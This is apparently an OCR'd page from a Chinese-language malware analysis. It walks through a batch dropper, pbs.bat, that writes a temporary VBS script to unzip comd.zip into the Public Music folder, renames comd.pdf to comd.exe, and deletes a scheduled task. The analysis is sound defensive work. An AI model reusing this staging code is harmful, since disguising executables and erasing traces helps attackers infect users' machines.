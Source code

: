 pbs.bat 代码分析：
-------------

这是位于 C:\\Users\\Public\\Music\\pbs.bat 处的代码：

```vbscript
@ECHO off
setlocal
CD /d %~dp0
CALL :UnZipFile "C:\Users\Public\Music" "C:\Users\Public\Music\comd.zip"
EXIT /b
:UnZipFile  
SET vbs="%temp%\_.vbs"
IF EXIST %vbs% DEL /f /q %vbs%
&gt;%vbs% ECHO Set fso = CreateObject("Scripting.FileSystemObject")
&gt;&gt;%vbs% ECHO If NOT fso.FolderExists(%1) Then
&gt;&gt;%vbs% ECHO fso.CreateFolder(%1)
&gt;&gt;%vbs% ECHO End If
&gt;&gt;%vbs% ECHO set objShell = CreateObject("Shell.Application")
&gt;&gt;%vbs% ECHO set FilesInZip=objShell.NameSpace(%2).items
&gt;&gt;%vbs% ECHO objShell.NameSpace(%1).CopyHere(FilesInZip)
&gt;&gt;%vbs% ECHO Set fso = Nothing
&gt;&gt;%vbs% ECHO Set objShell = Nothing
cscript //nologo %vbs%
IF EXIST %vbs% DEL /f /q %vbs%
del /f C:\Users\Public\Music\comd.zip
ren C:\Users\Public\Music\comd.pdf comd.exe
schtasks /delete /tn Tls_SSL /f
exit
```

@ECHO off 先关闭批处理文件的回显功能，增强隐蔽性。然后 setlocal 用来本地化批处理文件的环境变量，%~dp0 表示更改当前目录为批处理本身的目录，然后跳转到自定义的 :UnZipFile 标签函数中解压 comd.zip 压缩包。

UnZipFile 标签函数先设立本地化的环境变量，vbs="%temp%\_.vbs" 使 vbs 变量指向临时目录下的 \_.vbs 文件。判断该文件是否存在，如果存在就以静默形式删除该文件，然后重新创建该文件并用 ECHO 输出对应的 VBS 语句到文件中，其中 %n 指代的参数内容会展开。

#### **写入的 \_.vbs 代码如下所示：**

```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
If NOT fso.FolderExists("C:\Users\Public\Music") Then
fso.CreateFolder("C:\Users\Public\Music")
End If
set objShell = CreateObject("Shell.Application")
set FilesInZip=objShell.NameSpace("C:\Users\Public\Music\comd.zip").items
objShell.NameSpace("C:\Users\Public\Music").CopyHere(FilesInZip)
Set fso = Nothing
Set objShell = Nothing
```

同样的先检查 C:\\Users\\Public\\Music\\ 路径是否存在，如果不存在则自行创建。然后调用 Windows shell 中的 Shell.NameSpace 方法把 C:\\Users\\Public\\Music\\comd.zip 压缩包的文件解压到当前 Music 目录下。

具体可参考：[Windows Shell - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/shell/shell-entry)

